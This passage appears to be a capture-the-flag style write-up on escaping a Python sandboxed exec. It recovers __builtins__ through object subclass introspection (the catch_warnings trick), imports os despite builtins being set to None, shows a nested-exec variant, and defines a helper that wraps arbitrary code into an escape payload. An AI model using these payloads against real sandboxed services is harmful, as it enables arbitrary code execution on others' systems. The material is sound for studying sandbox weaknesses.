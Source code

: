 Although the app provides a sandboxed exec, there is a way we can use inderection to retrieve the `__builtins__` that the developer disallowed us to use.

The following code does indeed returns us the `__builtins__`:

`[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__`

Or, in order to consume less characters, we can use:

`[c for c in ().__class__.__base__.__subclasses__() if 'cat' in c.__name__ ][0]()._module.__builtins__`

This means that the importing of a module into a sandboxed environment can occurs as in the following code



```python
pl = """
i=[c for c in ().__class__.__base__.__subclasses__() if 'cat' in c.__name__ ][0]()._module.__builtins__['__import__']
os = i('os')
print os
"""
exec(pl,{'__builtins__':None},{})
```

    <module 'os' from '/usr/lib/python2.7/os.pyc'>


In this way we are able to get back the `__import__` function and load into the environment the desired value.

Another approach could be to use a **nested exec**. In the latter we are able to restore the builtins that were taken out by the outer exec. The following code shows how this could result in the same output as the above.


```python
pl = """
exec("import os;print os",{'__builtins__':[c for c in ().__class__.__base__.__subclasses__() if 'cat' in c.__name__ ][0]()._module.__builtins__})
"""
exec(pl,{'__builtins__':None},{})
```

    <module 'os' from '/usr/lib/python2.7/os.pyc'>


We now have a way to build the payload to be sent to the application.

We create a procedure that transform a statment that we would normally use with `exec` into one that is consistent with a sandboxed environment.


```python
def make_a_statement_for_exec_consistent_with_sandbox(py_code):
    return """exec(\"""%s\""",{'__builtins__':[c for c in ().__class__.__base__.__subclasses__() if 'cat' in c.__name__ ][0]()._module.__builtins__})"""%py_code
```
